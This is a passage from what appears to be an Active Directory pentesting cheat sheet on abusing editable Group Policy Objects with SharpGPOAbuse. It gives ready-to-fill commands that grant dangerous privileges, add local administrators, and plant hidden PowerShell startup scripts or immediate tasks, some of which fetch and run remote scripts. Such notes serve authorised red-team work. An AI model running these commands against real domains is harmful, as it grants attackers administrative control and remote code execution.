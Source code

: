 The following GUID must be added in the `gPCUserExtensionNames` attribute in
order to make the immediate task effective:

```
[{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]
```

###### SharpGPOAbuse

`SharpGPOAbuse` is a C# tool that can be used to automate the process of
exploiting an editable GPO. The utility supports the following exploitation
techniques:
  - add the specified rights to a domain user
  - add a domain user to the local Administrators group of the computer
  - add a new computer start up script
  - add a new user logon script
  - add a computer or user immediate task

```bash
# SharpGPOAbuse can be run on an out of the domain computer through a runas session
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe
SharpGPOAbuse.exe --DomainController <DC_IP> --Domain <DOMAIN>

# Add the specified rights to an user
# The privileges are specified in a case sensitive comma separated list
# The \\<DOMAIN>\SYSVOL\<DOMAIN_FQDN>\Policies\<GPO_GUID>\MACHINE\Microsoft\Windows
NT\SecEdit\GptTmpl.inf file should includes the specified privileges with the given account SID
SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeDebugPrivilege,SeAuditPrivilege,SeRemoteInteractiveLogonRight" --UserAccount "<DOMAIN>\<USERNAME>" --GPOName "<GPO_NAME>"

# Add a domain user to the local Administrators group of the computer
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "<DOMAIN>\<USERNAME>" --GPOName "<GPO_NAME>"

# Add a new computer start up or user logon script
# Refer to the "General - Shells" note for starting a reverse PowerShell
SharpGPOAbuse.exe <--AddUserScript | --AddComputerScript> --ScriptName "<SCRIPT_NAME>" --ScriptContents "<SCRIPT>" --GPOName "<GPO_NAME>"
SharpGPOAbuse.exe <--AddUserScript | --AddComputerScript> --ScriptName "GPO_script.ps1" --ScriptContents "powershell.exe -nop -w hidden -c \"<INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>\"" --GPOName "<GPO_NAME>"

# Add a new computer or user immediate task
# For some reason starting the --Arguments with "-nop" make SharpGPOAbuse raise an "Unknown argument error"
SharpGPOAbuse.exe <--AddUserTask | --AddComputerTask> --TaskName "<TASKNAME>" --Author "<DOMAIN>\Admininistrator" --Command "cmd.exe | BINARY_PATH>" --Arguments "<ARGUMENTS | /c powershell.exe -nop -w hidden -c \"<INLINE-POWERSHELL | IEX_REMOTE_SCRIPT>\">" --GPOName "<GPO_NAME>"
```

### Active Directory Certificate Services

###### Exploitable access control on certificate templates
